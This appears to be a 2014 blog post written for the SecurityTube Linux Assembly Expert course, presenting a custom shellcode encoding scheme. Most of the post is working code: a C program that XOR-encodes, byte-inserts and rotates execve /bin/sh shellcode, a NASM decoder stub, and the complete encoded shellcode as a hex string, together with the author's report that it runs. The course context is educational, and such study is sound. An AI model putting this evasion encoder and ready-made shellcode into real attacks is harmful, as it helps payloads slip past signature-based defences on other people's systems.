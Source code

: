 ```yaml
---
comments: true
date: 2014-04-09
layout: blog
title: 'SLAE Assignment 4: Custom Encoding Schema'
category: blog
tags: [asm-x86,nasm,slae]
---
```


This is the fourth of the seven assignment necessary to accomplish the [SecurityTube Linux Assembly Expert](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/index.html) certification. The instructions for this assignment are:

  1. Create a custom encoding schema like "insertion encoder"

  2. Create a working demo using execve-stack as the shellcode to encode, decode and run with the created schema

The custom encoding schema that I chose to create works as follow:

  1. The execve shellcode is encoded with XOR

  2. The result will be encoded using the insertion encoder with an incrementing value

  3. Every 32 bits the above result will be rotated (left or right, you choose) of 16 bits.

To encode the execve shellcode, like I wrote above, I developed the following C program:


```c
//Description:	Assignment #4 (PoC of Custom_Encoding_Schema)
//Author:	Paolo Stivanin <https://github.com/polslinux>
//SLAE ID:	526

#include <stdint.h>
#include <string.h>
#include <stdio.h>
#include <stdlib.h>

#define ROL 0x00
#define ROR !ROL

void concatenate(uint8_t [], uint32_t);
void rotate(uint32_t, uint32_t, uint32_t);
void split_uint32(uint32_t);

uint8_t *finalShellcode;
uint32_t counter = 0;

int main(void){
	uint8_t execveShellcode[] = {0xeb,0x25,0x5e,0x89,0xf7,0x31,0xc0,0x50,0x89,0xe2,0x50,0x83,0xc4,0x03,0x8d,0x76,0x04,0x33,0x06,0x50,0x31,0xc0,0x33,0x07,0x50,0x89,0xe3,0x31,0xc0,0x50,0x8d,0x3b,0x57,0x89,0xe1,0xb0,0x0b,0xcd,0x80,0xe8,0xd6,0xff,0xff,0xff,0x2f,0x2f,0x62,0x69,0x6e,0x2f,0x73,0x68};
	uint8_t xorByte = 0x1c;
	uint8_t insertByte = 0xb2;

	size_t LEN=sizeof(execveShellcode);
	uint8_t xorWithInsertion[LEN*2];
	uint32_t i, j=0;

	restart:
	for(i=0; i<LEN; i++){
		if(execveShellcode[i] == xorByte){
			xorByte += 1;
			goto restart;
		}
	}
	for(i=0; i<LEN; i++){
		execveShellcode[i] ^= xorByte;
	}

	printf("XOR(Shellcode) using 0x%02x:\n", xorByte);
	for(i=0; i<LEN; i++){
		if(i==LEN-1) printf("0x%02x", execveShellcode[i]);
		else printf("0x%02x,", execveShellcode[i]);
	}
    
	for(i=0; i<LEN*2; i++){
		xorWithInsertion[i] = execveShellcode[j++];
		xorWithInsertion[++i] = insertByte++;
	}
	printf("\n\nINSERTION(XOR(Shellcode)):\n");
	for(i=0; i<LEN*2; i++){
		if(i==(LEN*2)-1) printf("0x%02x", xorWithInsertion[i]);
		else printf("0x%02x,", xorWithInsertion[i]);
	}	

	printf("\n\nROL16(XOR(INSERTION(Shellcode))):\n");

	finalShellcode = malloc(sizeof(xorWithInsertion));
	concatenate(xorWithInsertion, sizeof(xorWithInsertion));

	for(i=0; i<LEN*2; i++){
		if(i==(LEN*2)-1) printf("0x%02x", finalShellcode[i]);
		else printf("0x%02x,", finalShellcode[i]);
	}
	printf("\n");

	free(finalShellcode);

	return 0;
}
    
void concatenate(uint8_t arr[], uint32_t size){
   	if(size % 4 != 0){
   		printf("Size must be a multiple of 4\n");
   		return;
   	}
   
   	uint32_t i, value = 0;
    
   	for(i=0;i<size;i++){
   		value = value^arr[i];
   		if(i%4 == 3){
   			rotate(value, 16, ROL);
   			value = 0;
   		}
   		else value = value<<8;
   	}
}
    
void rotate(uint32_t input, uint32_t bits, uint32_t direction){
    uint32_t output;
    
    if(direction == ROL){
    	output = input << (bits % (8 * sizeof(uint32_t)));
    	output |= input >> ((8 * sizeof(uint32_t)) - bits % (8 * sizeof(uint32_t)));
    }
    else
    {
    	output = input >> (bits % (8 * sizeof(uint32_t)));
    	output |= input << ((8 * sizeof(uint32_t)) - bits % (8 * sizeof(uint32_t)));
   	}
   	split_uint32(output);
}
    
void split_uint32(uint32_t splitMe){
   	uint32_t j;
   	uint8_t b[4];
   	b[0] = (splitMe >> 24);
   	b[1] = (splitMe >> 16) & 0xff;
   	b[2] = (splitMe & 0xffff) >> 8;
   	b[3] = (splitMe & 0xff);
   	for(j=0; j<4; j++){
   		finalShellcode[counter++] = b[j];
   	}
}
```

And this is the shellcode used to decode and execute the original execve shellcode:

```nasm    
;Description:	Assignment #4 (Custom_Encoding_Schema, 82 (decoder) + 104 (EncodedShellcode) bytes)
;Shellcode:		\xeb\x4b\x5e\x31\xc0\x31\xdb\xb1\x0d\x31\xd2\x8a\x26\x8a\x46\x01\xc1\xc0\x10\x8a\x66\x02\x8a\x46\x03\x83\xc6\x04\x8a\x3e\x8a\x5e\x01\xc1\xc3\x10\x8a\x7e\x02\x8a\x5e\x03\x83\xc6\x04\x88\xe6\xc1\xc0\x10\x88\xf0\xc1\xc0\x10\x88\xfe\xc1\xc3\x10\x88\xf3\x66\x89\xd8\x35\x1c\x1c\x1c\x1c\x50\xfe\xc9\x75\xc0\xff\xe4\xe8\xb0\xff\xff\xff\x74\xe5\x6f\xe4\x33\xe3\x72\xe2\x75\xe1\x7e\xe0\x33\xdf\x33\xde\xe3\xdd\xe3\xdc\xe3\xdb\xca\xda\xf4\xd9\x9c\xd8\xd1\xd7\x17\xd6\xac\xd5\xfd\xd4\x95\xd3\x4b\xd2\x27\xd1\x91\xd0\x4c\xcf\xdc\xce\x2d\xcd\xff\xcc\x95\xcb\x4c\xca\x1b\xc9\x2f\xc8\xdc\xc7\x2d\xc6\x4c\xc5\x1a\xc4\x2f\xc3\x18\xc2\x6a\xc1\x91\xc0\x1f\xbf\xd8\xbe\x9f\xbd\x4c\xbc\xfe\xbb\x95\xba\x4c\xb9\xdc\xb8\x2d\xb7\xeb\xb6\x95\xb5\x42\xb4\x39\xb3\xf7\xb2
;Author:	Paolo Stivanin <https://github.com/polslinux>
;SLAE ID:	526

global _start
section .text
_start:
	jmp short call_shellcode

decoder:
	pop esi
	xor eax,eax
	xor ebx,ebx
	mov cl,13	;This is the counter. The shellcode is 104 bytes and this program read 8 byte every cycle so 104/8=13
	xor edx,edx
ll:	mov ah, BYTE [esi]
	mov al, BYTE [esi +1]
	rol eax,16
	mov ah, BYTE [esi +2] 
	mov al, BYTE [esi +3]
	add esi,4
	mov bh, BYTE [esi]
	mov bl, BYTE [esi +1]
	rol ebx,16
	mov bh, BYTE [esi +2]
	mov bl, BYTE [esi +3]
	add esi,4

	mov dh,ah
	rol eax,16
	mov al,dh
	rol eax,16

	mov dh,bh
	rol ebx,16
	mov bl,dh

	mov ax,bx
	xor eax,0x1c1c1c1c
	push eax
	dec cl
	jnz ll
	jmp esp	

call_shellcode:
	call decoder
	EncodedShellcode db 0x74,0xe5,0x6f,0xe4,0x33,0xe3,0x72,0xe2,0x75,0xe1,0x7e,0xe0,0x33,0xdf,0x33,0xde,0xe3,0xdd,0xe3,0xdc,0xe3,0xdb,0xca,0xda,0xf4,0xd9,0x9c,0xd8,0xd1,0xd7,0x17,0xd6,0xac,0xd5,0xfd,0xd4,0x95,0xd3,0x4b,0xd2,0x27,0xd1,0x91,0xd0,0x4c,0xcf,0xdc,0xce,0x2d,0xcd,0xff,0xcc,0x95,0xcb,0x4c,0xca,0x1b,0xc9,0x2f,0xc8,0xdc,0xc7,0x2d,0xc6,0x4c,0xc5,0x1a,0xc4,0x2f,0xc3,0x18,0xc2,0x6a,0xc1,0x91,0xc0,0x1f,0xbf,0xd8,0xbe,0x9f,0xbd,0x4c,0xbc,0xfe,0xbb,0x95,0xba,0x4c,0xb9,0xdc,0xb8,0x2d,0xb7,0xeb,0xb6,0x95,0xb5,0x42,0xb4,0x39,0xb3,0xf7,0xb2
```

Please note that _EncodedShellcode_ **must be wrote in reverse order**. To perform this task, you can use [this small program](https://github.com/polslinux/SLAE/blob/master/utility/for-shellcode/reverse-shellcode.c) which I have developed.

Using libemu I made a graph of the execution flow of the above shellcode:

[![graph_assign4]({{ site.baseurl }}/images/2014/04/graph_assign4-551x1024.png)]({{ site.baseurl }}/images/2014/04/graph_assign4.png)

It works ;-)

[![assign4]({{ site.baseurl }}/images/2014/04/assign4-1024x525.png)]({{ site.baseurl }}/images/2014/04/assign4.png)

All the sources can be found in my [Github page](https://github.com/polslinux/SLAE/).



This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

**Student ID: SLAE-526**

